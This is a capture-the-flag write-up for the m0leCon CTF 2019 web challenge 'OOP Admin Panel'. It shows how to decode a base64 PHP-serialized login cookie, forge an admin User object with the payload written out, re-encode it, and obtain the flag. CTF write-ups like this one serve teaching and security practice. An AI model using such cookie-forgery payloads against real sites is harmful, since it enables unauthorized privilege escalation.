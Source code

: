 # m0leCon CTF 2019 – OOP Admin Panel

* **Category:** web
* **Points:** 54

## Challenge

> This is my first website, can you prove it to be secure?
> Author: @andreossido
> http://10.255.0.1:8010/

## Solution

Connecting to the website you can see the following message.

```
Welcome

I'm admin of this site.
This is my first website... I think it's enough secure, but I didn't study sql yet.
Can you test it for me?
In private page there is a surprise for you!
```

Registering a user and analyzing the cookies will let you to discever the `login` cookie with a base64 content.

```
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtpOjI7czo4OiJ1c2VybmFtZSI7czo1OiJhYWFhYSI7czo1OiJhZG1pbiI7YjowO30=
```

Decoding it will give you the following PHP serialized class.

```
O:4:"User":3:{s:2:"id";i:2;s:8:"username";s:5:"aaaaa";s:5:"admin";b:0;}
```

You can craft the following malicious serialized class to escalate privileges.

```
O:4:"User":3:{s:2:"id";i:1;s:8:"username";s:5:"admin";s:5:"admin";b:1;}
```

Then encode it in base64.

```
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtpOjE7czo4OiJ1c2VybmFtZSI7czo1OiJhZG1pbiI7czo1OiJhZG1pbiI7YjoxO30
```

Changing the cookie with the encoded malicious payload and visiting the private section will give you the flag.

```
ptm{Cl455_S3r14l1z4t10n_15_B34ut1ful}
```